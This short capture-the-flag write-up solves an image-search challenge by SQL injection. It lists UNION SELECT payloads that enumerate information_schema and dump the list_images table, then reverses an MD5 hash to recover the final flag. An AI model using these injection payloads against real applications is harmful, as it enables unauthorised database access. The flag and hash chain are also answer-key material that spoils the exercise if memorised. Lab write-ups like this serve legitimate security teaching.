

# Solution

```
1 OR 1=1 UNION SELECT title, comment FROM list_images
```

On the image search page, we see that we also have a database that is not protected against SQL Injections.  

-> There are 2 columns, Title and Url.

```
ID: 1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.columns; 
Title: list_images
Url : Member_images
```

let's find the columns of the `list_images` table  
There are 4 columns :  
```
id
url
title
comment
``` 

  

```
ID: 1 OR 1=1 UNION SELECT title, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```  

1928e8083cf461a51303633093573c46 -> md5 -> albatroz  
> albatroz -> sh256 -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188